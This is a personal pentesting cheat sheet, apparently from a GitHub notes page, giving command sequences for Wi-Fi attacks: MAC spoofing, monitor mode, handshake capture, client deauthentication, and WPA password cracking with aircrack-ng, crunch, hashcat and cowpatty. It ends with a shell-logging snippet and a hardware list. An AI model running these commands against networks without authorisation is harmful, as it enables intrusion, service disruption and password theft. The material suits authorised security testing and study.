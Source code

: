 ```yaml
---
title: Hacking
date: 2020-04-03 20:32:13+01:00
author: Gaxpert
---
```


### Hacking


#Wifi

    Wifi hacking
    
check wifi powers
wavemon
    macchanger
service network-manager stop
ifconfig wlan0 down
macchanger -b -a wlan0
ifconfig wlan0 up
service network-manager start
    
    airmon-ng
airmon-ng check kill
#monitor mode
airmon-ng start wlan0
#specify channel
airmon-ng start wlan0 7

#Capture packets and write to file
airodump-ng wlan0mon -w file.cap
  #optional, target only one bssid
  --bssid AA:BB:CC: ....
  #optional, deauth target
  aireplay-ng --deauth 100 -a AP -c CLIENT wlan0mon

    handshakes
#extract handshakes from file
wpaclean handshakes.cap file.cap
#crack pass
aircrack-ng handshakes.cap -w /path/to/dict.txt
  #optional, use cruch as dic
  crunch 8 8 abcdefghijklmnopqrstuvwxyz aircrack-ng -b AA:BB:CC:DD -w - file.cap
#Or crack with hashcat (faster)


    hashcat
Stores result in ~/.hashcat/hashcat.pot

cap2hccapx file.cap out.cap
#attention to several cap files
#might need to specify network. Maybe check with "wpaclean" how many handshakes are present
hashcat -a 0 -m 2500 all.hccapx rockyou.txt

-a = Cracking mode
  0  = wordlist
  3  =  bruteforce
  1  = combinator

note: zsh doesnt like ? chat, use bash

charsets
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?h = 0123456789abcdef
?H = 0123456789ABCDEF
?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
?a = ?l?u?d?s
?b = 0x00 - 0xff

    Precompute PSK
genpmk -f dict.txt -d hashes -s SSID
ex: genpmk -f rockyou.txt -d hashes -s TheLair
#then break with cowpatty
cowpatty -d hashfile -r dumpfile -s ssid


#Reporting

For pentesting, Add this to your .bashrc file:

PS1='[`date  +"%d-%b-%y %T"`] > ' 
test "$(ps -ocommand= -p $PPID | awk '{print $1}')" == 'script' || (script -f $HOME/logs/$(date +"%d-%b-%y_%H-%M-%S")_shell.log)

Now you can have a log of everything you did and when you did it.

#Hardware

ALFA Network AWUS036NHA + U-de Montage CS 5 dBi WiFi Adaptateur réseau

Plugable USB Bluetooth Adaptateur, 4.0 


